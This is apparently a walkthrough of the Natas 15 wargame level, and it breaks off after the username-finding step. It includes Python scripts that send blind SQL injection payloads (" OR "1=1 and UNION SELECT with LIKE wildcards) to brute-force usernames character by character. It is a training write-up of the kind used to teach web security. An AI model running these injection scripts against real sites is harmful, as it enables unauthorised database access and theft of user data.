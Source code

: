 # Natas 15 walkthrough
As always, we first introduce our credentials, and the first thing we see is this:
![alt text](media/front-end.png)

We see a form, that ask us to introduce an username, and then when we click the check existence button to send the post request. Lets try to introduce a random name, like "username".

![alt text](media/image1.png)

We get redirected to the following page 

![alt text](media/image2.png)

An as a result, the we see the text "This user doesn't exist.", this will be useful later in the script. 
So from what we have gathered by now, we can guess that if we put an username that exists, maybe the text that appears will be different.

Still we don't have much information, so we will see the source code.

![alt text](media/source_code.png) 

And looking at it, we see two important things, someone left the schema of the database in a comment, and we see that they are using a query. And another thing that is useful that we have a debug variable that we can add in the request, so we can see the query generated. 

To solve this problem, we can divide it the following parts: Code injection, finding the usernames, finding the password.

## Code Injection

For me at least, this was the part that took more time, because to create the query, I had to use my imagination and creativity. And also have to find a way to confirm that I can inject code.

### Confirming the code injection
To see if it's possible to inject code into this form, I created this function to help me (Before you look at it, you could try it for yourself!).
```python
#Function to see if we can inject code
def test_code_injection():
    payload = {'debug':'True','username': "\" OR \"1=1" }
    r= session.post(url,auth=(username, password),data=payload)
    print(f"this is the content {r.content}")
    if b"This user exist" in r.content:
        print(f"look we injected code!")
```
I set the debug variable to true, because it's helpful, and used an old friend (" OR "1=1) to verify if it's possible to inject code, and also left a print of the content, because when I was trying to write our old friend, I've made a lot of syntaxs errors, so it did not worked out at the first try hahaha. And it finally worked as you can see in this output.

![alt text](media/output.png)

### Creating the query

If we thing about the restrictions of the problem, we can see that we can not know the specifics values of the columns in the database, so the first question is, **how can we guess them?** And so while I was thinking on this, I did a little research on how to do queries, and found something very useful, and it is the LIKE keyword and using it with the % operator, we can do brute force to guess how does the values stored in the database are written. And also needed to use the JOIN keyword, so we can use the things mentioned before. And why we have to guess it? Because of the information that the page is giving us, we can only know when we are on the right track by seeing the content displayed in the page that says "This user exists."
So finally, the injected code will look like this:

<span style="color: #FF5F0F;">" UNION SELECT * from users WHERE username LIKE "<random_char>%</span>

I used the UNION keyword, because that's the way I found that I can be guessing the values stored in the database and felt more comfortable, maybe there is another way.

## Finding the usernames
We need to find first the usernames, because in this way, when we want to obtain the password of any username, we can shorten the guess for the password. So we are going to use injection created before in order to guess with which character does all the usernames start with, why? Because the brute force will be shorten, and we don't have to try all the possible combinations of characters. And also, after we find the firsts characters of every username, we have to know their full name.
```python
#This function find the first initial character of the usernames stored in the database
def get_start_char(characters):
    start_char = []
    for char in characters:
        print(f"trying with {char}")
        payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+char+"%" }
        r= session.post(url,auth=(username, password),data=payload)
        if b"This user exist" in r.content:
            print(f"we found the following character {char}")
            start_char.append(char)
    return start_char
              
#Function to obtain the usernames stored in the database
def obtain_usernames(username,password,session,url):
    characters = 'qwertyuiopñlkjhgfdsazxcvbnm1234567890QWERTYUIOPÑLKJHGFDSAZXCVBNM*?!#$&/()='
    contador = 0
    #['ñ','a', 'c', 'b', 'n', 'Ñ', 'A', 'C', 'B', 'N']
    start_users = get_start_char(characters)
    full_name = []
    for user_to_find in start_users:
        while True:
            if contador == len(characters)-1:
                full_name.append(user_to_find)
                contador=0
                break
            print(f"trying with {user_to_find}{characters[contador]}")
            test = user_to_find+ characters[contador]
            payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+test+"%" }
            r= session.post(url,auth=(username, password),data=payload)
            if b"This user exist" in r.content:
                print(f"We've got a match with {characters[contador]}")
                user_to_find +=characters[contador]
                contador=0
            contador+=1
    print(f"The users are \n: {full_name}")
    return full_name
```
<div style="text-align: center;">
<img src="https://i.giphy.com/media/v1.Y2lkPTc5MGI3NjExOWlmdGtpdjc2ZW5jcW15MzF0ODNvMmFtaW05MDJ5NG43dDgzYXh6ZCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/7mug9zTI8lR9OAWXUT/giphy.gif">
</div>
